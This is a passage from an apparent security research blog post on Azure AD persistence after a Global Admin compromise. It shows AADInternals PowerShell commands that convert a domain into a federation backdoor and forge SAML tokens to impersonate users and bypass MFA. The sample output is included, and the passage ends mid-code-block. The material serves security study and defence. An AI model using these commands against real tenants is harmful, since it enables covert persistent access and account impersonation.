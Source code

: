 **Note!** Both the phone number and Device Token can be restored, so make sure to save them before changing users' MFA settings.

# Persistence

## Azure Virtual Machines

As demonstrated <a href="#azure-virtual-machines-1">above</a> after giving themselves **Virtual Machine Contributor** role, Global Admins can run commands as SYSTEM or root.
As such, they can use any technique available for creating persistent access to virtual machines.

## Identity federation
As described in the last <a href="/post/on-prem_admin/#federation-services-ad-fs" target="_blank">blog post</a> of the kill chain series, on-prem administrators can export AD FS token signing certificate
and impersonate any user of the tenant (and bypass MFA).

While the Global Admin may or may not have access to on-prem servers, they can create a <a href="/post/aadbackdoor/" target="_blank">backdoor</a> directly to the Azure AD.

The basic idea is to convert a registered domain to federated using a certificate the admin has access to.

With AADInternals, this can be done using the built-in certificate. For example, if there is a domain named **company.myo365.site**, it can be converted to a backdoor:
{{< highlight powershell >}}
# Convert an existing domain to a backdoor
ConvertTo-AADIntBackdoor -DomainName "company.myo365.site"
{{< /highlight>}}

Output:
```
Are you sure to create backdoor with microsoft.com? Type YES to continue or CTRL+C to abort: YES

IssuerUri               Domain              
---------               ------              
http://any.sts/23748688 company.myo365.site
```
Now, as long as we know the ImmutableId of the user, we can create a SAML token and login as the user.
{{< highlight powershell >}}
# Create a new SAML token
$saml=New-AADIntSAMLToken -ImmutableID "UQ989+t6fEq9/0ogYtt1pA==" -Issuer "http://any.sts/23748688" -UseBuiltInCertificate
{{< /highlight>}}

With the SAML token, you can now get OAuth Access Token to be used with AADInternals functions.
{{< highlight powershell >}}
# Get an access token for Exchange Online
$at=Get-AADIntAccessTokenForEXO -SAMLToken $saml
